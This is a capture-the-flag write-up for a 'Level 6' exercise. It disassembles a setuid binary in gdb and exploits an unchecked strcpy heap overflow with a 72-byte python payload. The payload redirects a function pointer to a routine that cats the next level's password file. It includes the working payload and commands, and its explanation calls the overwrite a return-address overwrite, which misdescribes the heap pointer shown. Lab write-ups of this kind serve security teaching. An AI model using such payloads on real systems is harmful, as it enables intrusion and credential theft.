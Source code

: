 # Level 6

## First clue
- once logged in as level6 we find again an executable  owned by `level7` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `Nope`

## Inspect with gdb
- Info function reveals main, n and m functions, but also a system call, malloc and strcpy. 
```
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini

```
## Main
```
    0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    


```
- Disassemblying main we find out that it exposes a buffer flow vulnerability using a not protected strcpy:  strcpy is called to copy a string pointed to by %edx into the buffer allocated by malloc, whose address is stored in %eax. The problem with this code is that strcpy does not check the size of the destination buffer. It simply copies bytes from the source string until it encounters a null terminator (\0). If the source string is larger than the destination buffer, it will overflow the buffer.

## Function m

- it does nothing but call puts

## Function n (not called anywhere)
```
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret 

```
- interesting, it contains a system call.
If we inspect the argument passed to the system call we get this:
```
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```
- this is the reason why we need to find a way to execute function n.
- Function n addressn as it appears in `info function` is `0x08048454`
- if we find the offset of the buffer of strcpy in main and place in the return of main the address of n, insteadd of returning we execute the n function.

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0x53535353 in ?? ()`
- 53 is the ASCII for "S" at position 73, so the end of the buffer is at position 72 => `echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRS" | grep -o .  |  wc -l`
- we store in /tmp/exploit 72 letters + the address of n function (reversed for little endian) and pass /tmp/exploit as argument to ./level6
- `python -c 'print "a"*72+"\x54\x84\x04\x08"' > /tmp/exploit`
- `./level6 $(cat /tmp/exploit)`
- we get the flag
